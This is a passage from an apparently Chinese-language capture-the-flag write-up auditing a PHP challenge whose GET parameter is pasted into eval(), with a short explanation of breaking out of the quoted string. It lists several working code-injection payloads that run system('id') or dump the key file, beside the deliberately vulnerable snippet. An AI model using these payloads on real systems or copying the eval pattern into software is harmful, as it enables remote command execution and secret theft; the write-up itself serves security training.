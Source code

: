 ![image.png](https://img.ghostliner.top/vfUaIC.png)

![image.png](https://img.ghostliner.top/tgK7MW.png)

## 6. web5：代码审计

![image.png](https://img.ghostliner.top/nzcc3z.png)

```php
<?php
error_reporting(0);
include "key4.php";
$a = $_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
?>
```

`$a` 被直接拼进了 `eval` 里，虽然有引号包裹，但依然可能闭合字符串、逃逸到 PHP 代码上下文。

`\` 为转义符，去除后分析代码

```php
$o=strtolower("$a");
```

**要点**：

- 打破 `strtolower("...")` 里的字符串，写入自己的代码，就可以命令执行。

payload:

```php
a=");system("id");//
a=");system("id
a=${system("id")}
a=");show_source("key4.php
```

拼接成

```php
$o=strtolower("");system('id');//");
$o=strtolower("");system("id");
$o=strtolower("${system("id")}");
$o=strtolower("");show_source("key4.php");
```
